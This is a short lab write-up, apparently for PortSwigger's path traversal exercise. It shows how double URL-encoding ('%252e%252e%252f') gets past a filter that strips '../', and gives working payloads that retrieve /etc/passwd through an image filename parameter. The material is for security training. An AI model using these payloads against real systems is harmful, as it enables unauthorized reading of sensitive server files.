

# File path traversal, traversal sequences stripped with superfluous URL-decode

**Lab Url**: [https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

## Objective

This lab contains a path traversal vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Solution

The application strips `../` from the filename and then performs an additional URL-decode before using it. A single level of URL encoding doesn't bypass the filter because the server's standard URL decoding happens first:

```text
%2e%2e%2f  →  ../  (server URL-decodes)  →  stripped (blocked)
```

To bypass, double-encode the traversal sequence so the stripping step sees only harmless encoded characters:

```text
%252e%252e%252f  →  %2e%2e%2f  (server URL-decodes, no ../ to strip) →  ../        (application decodes again, traversal succeeds)
```

### Step 1: Send the double-encoded payload

```bash
/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

Or the shorter form with only `%252f` double-encoded:

```bash
/image?filename=..%252f..%252f..%252fetc/passwd
```

The server returns the contents of `/etc/passwd`, solving the lab.


